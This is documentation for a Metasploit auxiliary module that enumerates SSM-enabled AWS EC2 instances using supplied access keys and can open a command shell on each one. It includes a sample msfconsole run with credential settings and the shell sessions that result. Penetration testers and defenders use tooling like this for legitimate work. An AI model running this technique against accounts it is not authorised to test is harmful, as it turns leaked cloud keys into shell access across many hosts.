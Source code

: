 ## Vulnerable Application

Provided AWS credentials, this module will call the authenticated API of Amazon Web Services to list all SSM-enabled EC2
instances accessible to the account. Once enumerated as SSM-enabled, the instances can be controlled using out-of-band
WebSocket sessions provided by the AWS API (nominally, privileged out of the box). This module provides not only the API
enumeration identifying EC2 instances accessible via SSM with given credentials, but enables session initiation for all
identified targets (without requiring target-level credentials) using the CreateSession datastore option. The module also
provides an EC2 ID filter and a limiting throttle to prevent session stampedes or expensive messes.

## Verification Steps

1. Obtain AWS access keys
2. Start msfconsole
3. Set the `ACCESS_KEY_ID`, `SECRET_ACCESS_KEY`, `REGION`
4. Run the module, see EC2 instances

## Options

## LIMIT
Only return the specified number of results from each region.

## FILTER_EC2_ID
Look for specific EC2 instance ID.

## REGION
AWS Region (e.g. "us-west-2").

## Advanced Options

### CreateSession

Create a new session for every successful login.

## Scenarios

Enumerating EC2 instances in the US-East-2 region and opening a session on each one (`CreateSession` is True).

```
msf6 auxiliary(cloud/aws/enum_ssm) > set ACCESS_KEY_ID AKIAO5WK2W9TMZT7EAM5
ACCESS_KEY_ID => AKIAO5WK2W9TMZT7EAM5
msf6 auxiliary(cloud/aws/enum_ssm) > set SECRET_ACCESS_KEY pDNhoEPuubvWSsp18axjPFBM4sNme6vnNUFb6qWo
SECRET_ACCESS_KEY => pDNhoEPuubvWSsp18axjPFBM4sNme6vnNUFb6qWo
msf6 auxiliary(cloud/aws/enum_ssm) > run

[*] Checking us-east-2...
[+] Found AWS SSM host i-02cd668d50587bdcf (ip-172-31-42-215.us-east-2.compute.internal) - 172.31.42.215
[*] AWS SSM command shell session 3 opened (192.168.250.134:39005 -> 172.31.42.215:0) at 2023-05-22 16:43:03 -0400
[+] Found AWS SSM host i-074187bde1453613a (EC2AMAZ-HM7U6TS.WORKGROUP) - 172.31.44.170
[*] AWS SSM command shell session 4 opened (192.168.250.134:37231 -> 172.31.44.170:0) at 2023-05-22 16:43:05 -0400
[*] Auxiliary module execution completed
msf6 auxiliary(cloud/aws/enum_ssm) > 
```
